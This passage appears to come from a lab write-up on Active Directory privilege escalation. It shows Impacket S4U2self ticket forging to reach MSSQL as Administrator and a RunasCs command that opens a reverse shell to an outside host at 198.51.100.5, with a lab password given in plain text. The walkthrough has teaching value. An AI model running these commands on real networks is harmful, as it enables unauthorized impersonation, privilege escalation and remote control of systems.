 ### S4u2self Extension

We can use `getST.py` to request for a service ticket to the `MSSQLSvc/sql01.antennae.rv` SPN on behalf of `Administrator`:

```
~$ getST.py -self -altservice 'MSSQLSvc/sql01.antennae.rv' -impersonate 'Administrator' 'antennae.rv'/'svc_sql':'P@ssw0rd_f0r_SQL-antennae'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Changing service from svc_sql@ANTENNAE.RV to MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV
[*] Saving ticket in Administrator@MSSQLSvc_sql01.antennae.rv@ANTENNAE.RV.ccache
```

### Accessing MSSQL as Administrator

As we did before, we can use this `s4u` ticket to authenticate to the `MSSQL` service on `sql01.antennae.rv` as `Administrator`:

```
~$ export KRB5CCNAME='Administrator@MSSQLSvc_sql01.antennae.rv@ANTENNAE.RV.ccache'
~$ mssqlclient.py -k -no-pass sql01.antennae.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (antennae\Administrator  dbo@master)> 
```

From here, we can follow the same steps as before to enable `xp_cmdshell`, obtain a reverse shell as `svc_sql`, and finally escalate to `NT AUTHORITY\SYSTEM` using `GodPotato`.

## Path 3: RunAs

Another, cleaner, alternative is to simply spawn a process as the `svc_sql` user from the existing local session we have as `wei.jie.tan`. This can be done [RunasCs](https://github.com/antonioCoco/RunasCs), a C# implementation of the `runas` command that supports passing in plaintext passwords.

```
PS C:\windows\tasks> .\RunasCs.exe 'svc_sql' P@ssw0rd_f0r_SQL-antennae powershell.exe -d antennae.rv -r 198.51.100.5:8443
[*] Warning: The logon for user 'svc_sql' is limited. Use the flag combination --bypass-uac and --logon-type '5' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-9138862$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 4424 created in background.
```
